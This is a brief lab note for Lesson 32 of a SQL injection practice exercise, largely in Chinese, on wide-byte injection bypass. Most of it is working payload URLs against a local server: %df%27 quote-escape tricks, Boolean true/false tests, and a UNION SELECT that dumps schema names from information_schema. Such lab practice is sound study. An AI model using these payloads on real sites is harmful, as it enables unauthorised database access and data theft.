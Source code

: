# Lesson-32
```
Bool盲注-,-明注-,-宽字节绕过
```

宽字节注入 :
``` 
http://127.0.0.1/Less-32/?id=0%df\%27||1--+
http://127.0.0.1/Less-32/?id=0%df\%27||0--+
```
```
http://127.0.0.1/Less-32/?id=0%df%27union%20select%201,group_concat(schema_name),1%20from%20information_schema.schemata--+
```
